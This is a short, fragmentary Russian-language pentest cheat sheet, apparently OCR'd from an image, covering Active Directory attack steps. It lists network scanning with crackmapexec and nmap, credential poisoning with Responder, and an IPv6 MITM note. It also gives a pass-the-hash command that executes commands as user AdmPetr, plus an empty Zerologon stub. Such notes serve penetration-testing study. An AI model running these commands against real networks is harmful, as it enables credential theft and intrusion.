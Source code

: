 Нет ничего
```
crackmapexec smb 192.168.10.0/24
nmap
sudo responder -I eth0 -wFv
```

MITM IPv6
Включено IPv6 


Есть NTLM hash
```
crackmapexec smb 192.168.10.200 -u AdmPetr -H -x 
```

Zerologon
Вход: 
	NTLMv2 авторизация машинной УЗ
Действия:

Выход: